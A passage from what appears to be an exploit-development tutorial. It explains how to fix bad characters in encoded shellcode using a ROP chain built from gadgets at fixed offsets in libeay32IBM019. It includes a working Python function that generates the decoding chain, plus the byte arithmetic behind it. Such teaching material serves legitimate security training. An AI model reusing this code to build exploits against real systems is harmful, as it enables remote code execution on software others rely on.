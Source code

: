 We can do simple math to know the bytes we need to add to restore the original characters:
```c
0x01 + 0xff = 0x00 
0xf9 + 0x10 = 0x09 
0x04 + 0x06 = 0x0a 
0x04 + 0x07 = 0x0b 
0x04 + 0x08 = 0x0c
0x08 + 0x05 = 0x0d
0x01 + 0x1f = 0x20
```

Once we have this information, we can generate a script that, for each of the badchars in our shellcode, adds a prototyped ROP chain with the corresponding offset and the value to add. This function will require three arguments; the base address of libeay32IBM019, the indexes of the bad characters in the shellcode, and the unencoded shellcode.

This is the function that performs the ROP chain creation automatically:
```python
def decodeShellcode(dllBase, badIndex, shellcode):
    BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20"
    CHARSTOADD = b"\x01\xf9\x04\x04\x04\x08\x01"
    restoreRop = b""

    for i in range(len(badIndex)):
        
        if i == 0:
            offset = badIndex[i]
        else:
            offset = badIndex[i] - badIndex[i-1]

        neg_offset = (-offset) & 0xffffffff
        value = 0

        for j in range(len(BADCHARS)):
            if shellcode[badIndex[i]] == BADCHARS[j]:
                value = CHARSTOADD[j]

        value = (value << 8) | 0x11110011

        restoreRop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
        restoreRop += pack("<L", (neg_offset))
        restoreRop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
        restoreRop += pack("<L", (value)) # values in BH
        restoreRop += pack("<L", (dllBase + 0x468ee)) # add [eax+1], bh ; ret

    return restoreRop
```

First we’ll list the possible bad characters and the associated characters we want to add. 
Next, we can create an accumulator variable (restoreRop) that will contain the entire decoding ROP chain.
Next, we need to perform a loop over all the bad character indexes. 
For each entry, we’ll calculate the offset from the previous bad character to the current bad character. 
This offset **is negated** and assigned to the neg_offset variable and used in the ROP chain for the POP ECX instruction.
To determine the value to add to the replacement character, we can perform a nested loop over all possible bad characters to determine which one was present at the corresponding index. Once the value is found, it is stored in the value variable.
Since the contents of value must be popped into BH, we have to **left-shift it by 8 bits.**
This will produce a value that is **aligned with the BH register but contains NULL bytes**. To solve the NULL byte problem, we will perform an OR operation with the static value 0x11110011, so that "11" bits are in the rest of RBX.
Finally, the result is written to the ROP chain where it will be popped into EBX at runtime.
